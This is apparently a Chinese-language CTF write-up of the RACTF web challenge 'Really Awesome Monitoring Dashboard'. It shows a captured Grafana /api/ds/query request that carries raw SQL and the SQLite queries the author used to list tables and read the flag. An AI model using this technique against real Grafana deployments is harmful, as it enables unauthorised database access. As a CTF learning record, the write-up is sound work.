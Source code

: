 # 前言

最近向Y4师傅学习，慢慢开始打国外的比赛。13号-16号的`RACTF`当时看了一下做出来人数最多的Web题，发现一点头绪都没有，就直接爬了，感觉这个比赛可能难度挺大的。还是有些畏难了。今天早上看到Y4师傅发了这个比赛的WP，我又去官网上看了一下，部分的Web的WP也发了，而且题目环境也都没关，所以就又去做了一下，不会的Web题如果有wp的话也跟着wp学习了一下进行了复现。



# Really Awesome Monitoring Dashboard

用的是`Grafana v8.1.1`，查了一下没找到这个版本的洞，直接人就懵了。后台也进不去，毫无思路。。。



仪表板上面的数据一直在变化，说明可能是js一直动态的请求api，也就是所谓的动态网页。用一下f12的`Network`，或者bp一直抓包去看，可以发现这么一条api请求：

```http
POST /api/ds/query HTTP/1.1
Host: 193.57.159.27:56555
Content-Length: 388
accept: application/json, text/plain, */*
x-grafana-org-id: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
content-type: application/json
Origin: http://193.57.159.27:56555
Referer: http://193.57.159.27:56555/?orgId=1&refresh=5s
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: redirect_to=%2Fplaylists%3F
Connection: close

{"queries":[{"queryText":"SELECT host,status FROM logs;","queryType":"table","rawQueryText":"SELECT host,status FROM logs;","refId":"A","timeColumns":[],"datasource":"sqlite","datasourceId":1,"intervalMs":30000,"maxDataPoints":590}],"range":{"from":"2021-08-18T01:57:14.304Z","to":"2021-08-18T07:57:14.304Z","raw":{"from":"now-6h","to":"now"}},"from":"1629251834304","to":"1629273434304"}
```

发现SQL语句直接写在了JSON中，相应中给出了SQL语句的执行结果，所以相当于这个SQL语句的执行api直接暴漏出来了，可以执行任意SQL语句。

根据`datasource:sqlite`，知道了`sqlite`数据库。`sqlite`的注入很少见，去查了一下，`sqlite`的每一个数据库就是一个文件。

查一下表名和创建表执行的SQL语句：

```sql
select tbl_name,sql from sqlite_master
```

```json
"values":[["logs","flags"],["CREATE TABLE \"logs\" (\n\t\"host\"\tTEXT NOT NULL,\n\t\"status\"\tTEXT NOT NULL\n)","CREATE TABLE \"flags\" (\n\t\"challenge\"\tINTEGER NOT NULL,\n\t\"flag\"\tTEXT NOT NULL\n)"]
```

因此直接查flags表即可得到`flag`：

```sql
select flag from flags
```
